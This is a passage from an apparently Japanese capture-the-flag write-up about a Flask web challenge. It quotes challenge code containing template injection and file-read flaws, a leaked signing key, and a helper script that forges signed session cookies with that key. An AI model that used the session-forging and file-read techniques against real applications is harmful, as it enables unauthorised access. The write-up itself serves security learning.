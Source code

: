 ```python
		</div>
		</div>
    ...
		''' % session['golem']

		print 

		session['golem'] = None

	return render_template_string(template)

@app.route("/", methods=["GET"])
def index():
	return render_template("main.html")

@app.route('/article', methods=['GET'])
def article():

    error = 0

    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'

    if page.find('flag')>=0:
    	page = 'notallowed.txt'

    try:
        template = open('/home/golem/articles/{}'.format(page)).read()
    except Exception as e:
        template = e

    return render_template('article.html', template=template)

if __name__ == "__main__":
	app.run(host='0.0.0.0', debug=False)
```

`execfile('key.py')` とあります。`/opt/serverPython/golem/key.py` は以下のような内容でした。

```
key = '7h15_5h0uld_b3_r34lly_53cur3d'
```

この `key` はそのまま `app.secret_key = key` という感じでセッションの署名に使われています。[以前書いたスクリプト](2017-07-17-ctfzone-2017.html#web-687-leaked-messages) をいじってセッションを作ってみましょう。

`app.py`

```python
import requests
from flask import *

from flag import FLAG

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
  if request.method == 'POST':
    session['golem'] = request.form['golem']
    return render_template('index.html', username=request.form['golem'])
  return render_template('index.html', golem='')

app.secret_key = '7h15_5h0uld_b3_r34lly_53cur3d'
```